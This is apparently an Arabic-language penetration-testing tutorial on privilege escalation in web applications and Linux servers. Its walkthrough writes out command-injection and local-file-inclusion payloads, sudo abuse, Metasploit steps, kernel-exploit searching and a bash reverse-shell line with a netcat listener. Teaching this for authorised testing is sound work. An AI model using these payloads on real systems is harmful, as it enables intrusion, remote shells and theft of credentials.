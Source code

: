 # **1. تعريف Privilege Escalation (تصعيد الصلاحيات)**

## **الشرح العميق:**
ال Privilege Escalation (تصعيد الصلاحيات) هو عملية يحاول فيها المهاجم أو المخترق ياخد صلاحيات أعلى من اللي عنده على نظام أو تطبيق. يعني لو دخلت على جهاز كمستخدم عادي (limited user)، بتحاول توصل لصلاحيات المسؤول (Administrator أو root) عشان تقدر تتحكم في كل حاجة. فيه نوعين رئيسيين:

1. **Vertical Privilege Escalation:** من مستخدم عادي لمستخدم بصلاحيات عالية (زي root أو admin).
2. **Horizontal Privilege Escalation:** من مستخدم عادي لمستخدم عادي تاني لكن بصلاحيات مختلفة (زي الوصول لحساب مستخدم تاني).


في سياق الويب، ده بيحصل لما تطبيق ويب (زي موقع) فيه ثغرة تسمح للمستخدم العادي يعدّل أو يتحكم في حاجات المفروض تكون للأدمن بس، زي تغيير بيانات، تشغيل أوامر، أو الوصول لملفات حساسة.

## **الأدوات والأوامر العملية:**

### 1. **فحص المستخدم الحالي:**

   - لو على لينكس: `id`
     - مثال نتيجة: `uid=1000(user) gid=1000(user) groups=1000(user)`
     - لو root: `uid=0(root)`.
   - لو على ويندوز: `whoami`
     - مثال: `user-pc\user` (مستخدم عادي) أو `nt authority\system` (أعلى صلاحية).

### 2. **محاولة تصعيد يدوي بسيط:**

   - على لينكس: `sudo -l`
     - بيوريك الأوامر اللي ممكن تشغلها كـ root لو كان عندك إذن.
   - مثال: لو لقيت `(root) NOPASSWD: /bin/bash`، شغل `sudo /bin/bash` وهتبقى root.

### 3. **في الويب (مثال ثغرة):**

   - لو موقع فيه ثغرة Parameter Tampering:
     - افترض رابط زي: `http://example.com/profile?user_id=123`
     - عدّل الـ ID لـ `user_id=1` (غالبًا Admin) وشوف لو بيفتح حساب الأدمن.

## **خلاصة للطفل:**
"زي لما تكون ضيف في بيت وتقدر تدخل المطبخ بس، لكن تلاقي طريقة تدخل بيها أوضة صاحب البيت وتتحكم في كل حاجة! تصعيد الصلاحيات يعني تاخد مفتاح أكبر من اللي معاك."

---

# **2. تأثير Privilege Escalation على أمان الويب**

## **الشرح العميق:**
لما يحصل تصعيد صلاحيات في تطبيق ويب، التأثير بيكون خطير جدًا لأن المهاجم بيقدر يعمل حاجات زي:

- **سرقة بيانات حساسة:** زي بيانات المستخدمين أو كلمات السر.
- **تعديل الموقع:** يغير محتوى الصفحات أو يضيف أكواد ضارة.
- **التحكم في السيرفر:** لو وصل لصلاحيات root/admin على السيرفر بتاع الموقع، يقدر يشغل أوامر أو يدمر النظام كله.
- **الهجمات الممتدة:** يستخدم الموقع كقاعدة لمهاجمة أنظمة تانية.

الثغرات اللي بتؤدي لتصعيد الصلاحيات في الويب بتكون زي ضعف التحقق من الهوية (Broken Authentication)، سوء الإعدادات (Misconfiguration)، أو حقن الأوامر (Command Injection).

## **الأدوات والأوامر العملية:**

### 1. **Command Injection في الويب:**
   - لو موقع بياخد إدخال منك وينفذه:
     - رابط: `http://example.com/ping?ip=127.0.0.1`
     - جرب: `http://example.com/ping?ip=127.0.0.1; whoami`
     - لو رجعلك اسم المستخدم (زي www-data)، يبقى فيه ثغرة.

### 2. **Local File Inclusion (LFI) لتصعيد:**
   - رابط: `http://example.com?page=about.php`
   - جرب: `http://example.com?page=/etc/passwd`
     - لو ظهر ملف passwd، حاول تصعيد بـ:
     - `http://example.com?page=/proc/self/environ` (تشوف بيئة النظام).



### 3. **Metasploit لاستغلال ثغرة:**
   - لو لقيت ثغرة في خدمة ويب:
     - `msfconsole`
     - `use exploit/multi/http/<module_name>`
     - `set RHOST <IP>`
     - `exploit`
   - لو نجحت، هتاخد shell وتقدر تصعد صلاحيات.

#### **خلاصة للطفل:**
"لما تتحكم في موقع، زي لما تكون لعبت لعبة واخدت كل القوة! المهاجم بيقدر يسرق حاجات، يخرب البيت، أو يتحكم في كل حاجة لو لقى الباب مفتوح."

---

# **3. ليه مهم نفهم ده وإزاي نستغله؟**

- **الهدف:** لو اختبرت موقع (كـ Pentester)، لازم تعرف الثغرات اللي ممكن تؤدي لتصعيد وتستغلها عشان تثبت خطورتها.
- **مثال عملي:** لو لقيت Command Injection، ممكن تشغل أوامر زي `whoami` أو `id`، وبعدها تبحث عن طريقة تصير root.
- **أدوات إضافية:**
  - `searchsploit`:
    - `searchsploit php 7.2 command injection`
    - بيطلعلك ثغرات مرتبطة بالإصدار.

#### **خلاصة للطفل:**
"لما تعرف إزاي تدخل وتتحكم، بتبقى زي بطل خارق بيقدر يفتح كل الأبواب ويثبت إن البيت مش أمان!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الموقع**
- استخدم Nmap لفحص السيرفر:
  - `nmap -sV 192.168.1.10`
- افترض النتيجة:
  - Port 80: Apache 2.4.29
  - Port 22: OpenSSH 5.3

## **الخطوة 2: اختبار ثغرات الويب**
- جرب Command Injection:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`
  - لو رجعلك `uid=33(www-data)`، يبقى فيه ثغرة.
- جرب LFI:
  - `http://192.168.1.10?page=/etc/passwd`
  - لو ظهر الملف، ابحث عن ملفات زي `/var/www/html/config.php` لكلمات سر.

## **الخطوة 3: استغلال الثغرة**
- لو لقيت Command Injection:
  - أضف أمر زي: `; /bin/bash -i >& /dev/tcp/<your_IP>/4444 0>&1`
  - شغل Netcat على جهازك: `nc -lvnp 4444`
  - لو نجح، هتاخد shell.

## **الخطوة 4: تصعيد الصلاحيات**
- على الـ Shell:
  - `id` (تشوف مين أنت، مثلاً www-data).
  - `sudo -l` (تشوف لو فيه أوامر بصلاحيات root).
  - لو لقيت مثلاً `sudo /bin/bash`، شغله وهتبقى root.
- لو مفيش sudo:
  - ابحث عن Kernel Exploit:
    - `uname -r` (تعرف إصدار النواة، زي 2.6.32).
    - `searchsploit linux kernel 2.6.32`
    - نزل السكربت وشغله على السيرفر.

## **الخطوة 5: توثيق وتنظيف**
- سجل كل خطوة (لتقرير الـ Pentest).
- لو خلّصت، امسح أي أثر (زي السكربتات) لو ده جزء من الاتفاق.

## **خلاصة للطفل:**
"زي لما تلعب لعبة مغامرات: تدور على الثغرة زي كنز، تستخدمها عشان تفتح الباب الكبير، وتصير الملك بتاع الموقع!"

---

# **الخلاصة النهائية:**
Privilege Escalation هو مفتاح التحكم الكامل في نظام أو موقع. في الويب، بتدور على ثغرات زي Command Injection أو LFI، وبعدين تستغلها عشان تاخد shell وتصعد لصلاحيات أعلى. بالأدوات زي Nmap، Netcat، وMetasploit، تقدر تكتشف وتستغل كل نقطة ضعف بسهولة لو خططت صح!